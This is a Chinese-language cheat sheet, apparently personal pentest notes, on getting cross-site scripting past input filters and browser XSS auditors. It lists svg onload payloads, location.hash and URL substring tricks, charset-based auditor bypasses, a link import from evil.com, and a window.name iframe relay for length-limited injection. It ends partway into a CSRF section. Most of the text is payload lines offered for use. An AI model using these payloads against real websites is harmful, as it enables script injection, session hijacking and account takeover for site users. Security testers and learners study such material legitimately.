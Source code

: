 header添加：X-XSS-Protection:0关闭浏览器自己的xss防御。能简单考虑人为过滤。正则匹配可以用编码绕过（js里的8进制，html实体编码）
1. 常规思路：
	
	<script>-><svg>->其他html5标签（https://html5sec.org/）

2. alert,confirm,prompt没了，还有location.hash

		<svg onload=alert(location.hash.substr(2))>#11
		location.hash被干掉可以用URL对象的substr
		<svg onload=alert(URL.substr(82))#11
		String.FromCharcode
		空格、小数点都没了。
		<svg/onload=alert(location.hash.substr(2))#11
		<svg onload=with(URL)alert(substr(87))#11	
		限制长度：
		var ="<svg/onload=alert(1)>"
		\$(var)比eavl(name)短4字节。

3. 浏览器filter绕过：

chrome的filter绕过

	"><svg/onload=alert(1)>
	
XSS filter打开后，js不能直接执行。但是基本基于正则匹配，把事件名称和等于号、事件代码联合匹配。
如果html没有通过meta标签设置charset的情况下。可以通过引入某种编码利用不可见字符绕过。如老版本chrome存在ISO-2022-KR编码，%0f可以绕过匹配。移除后ISO-2022-JP中又存在%1B%28B。

设置了charset没有禁止script标签的话。还可以svg继承。
	
	"><script>alert(1);2%2502</script>
	"><svg><script>/<1/>alert(1)</script></svg>
	<link rel=import href=evil.com>
	
### 跨域问题

回旋镖 window.name

对于有长度限制的xss，通过回旋镖跨域传递

	<iframe src="about:blank" name="a"></iframe>
	<script>
	var test=frames['a'];
	test.window.name="alert(1)";
	test.location="http://ip/xss.php?number=<svg/onload=eval(name)>"
	</script>

穿甲伤害 UXSS

http://www.freebuf.com/articles/web/58435.html

* 同源策略

### CSRF

由于目标站没有token或referer防御，导致用户的敏感操作的每个参数都可以被攻击者获知。即可伪造一个请求以用户的身份达到目的。

按照请求类型可分为：GET\POST
按照攻击方式可分为：
